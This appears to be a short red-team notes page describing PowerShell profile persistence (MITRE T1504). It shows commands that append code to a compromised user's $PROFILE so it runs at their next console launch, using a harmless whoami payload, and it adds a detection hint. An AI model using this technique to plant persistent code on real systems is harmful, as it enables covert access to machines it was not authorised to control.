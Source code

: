 # Powershell Profile Persistence

It's possible to use powershell profiles for persistence and/or privilege escalation.

## Execution

There are four places you can abuse the powershell profile, depending on the privileges you have:

```csharp
$PROFILE | select *
```

![](../../.gitbook/assets/image%20%28131%29.png)

Let's add the code to a `$profile` variable \(that expands to the current user's profile file\) that will get executed the next time the compromised user launches a powershell console:

{% code title="attacker@target" %}
```csharp
echo "whoami > c:\temp\whoami.txt" > $PROFILE
cat $PROFILE
```
{% endcode %}

![](../../.gitbook/assets/image%20%2837%29.png)

Once the compromised user launches powershell, our code gets executed:

![](../../.gitbook/assets/image%20%28216%29.png)

{% hint style="warning" %}
If the user is not using profiles, the technique will stick out immediately due to the "loading personal and system profiles..." message at the top.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/techniques/T1504/" %}

